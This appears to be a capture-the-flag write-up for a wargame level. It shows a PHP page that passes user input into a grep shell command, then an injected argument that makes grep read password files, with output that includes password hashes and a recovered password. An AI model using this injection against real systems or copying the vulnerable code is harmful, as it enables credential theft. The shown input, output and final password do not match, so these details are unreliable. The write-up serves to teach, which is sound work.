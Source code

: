 ```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Since it blocks us from using `;`, we can see that the key input is before dictionary.txt and from previous challenges, we know the flag will be in `/etc/natas_webpass/natasXX` so with grep we can check multiple files like `grep -i term file1 file2 file3`, so our key can just be the file we want to check.. term will be what we search for, so with some regex for any line `.*` we can use:

`.* /etc/natas_webpass/natas10`

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
```

There's our next password!

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`